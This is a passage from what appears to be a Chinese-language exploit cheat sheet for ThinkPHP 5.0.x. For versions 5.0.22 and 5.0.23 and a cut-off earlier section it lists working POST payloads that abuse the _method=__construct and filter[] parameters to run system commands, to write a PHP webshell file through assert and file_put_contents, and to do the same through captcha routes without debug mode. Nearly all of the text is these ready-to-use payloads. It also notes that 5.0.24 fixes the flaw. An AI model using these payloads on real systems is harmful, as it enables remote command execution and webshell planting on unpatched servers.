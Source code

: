 ```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```

## 5.0.22
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
## 5.0.23
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
## 5.0.24
作为5.0.x的最后一个版本，rce被修复
## 5.1.0
默认debug为true
命令执行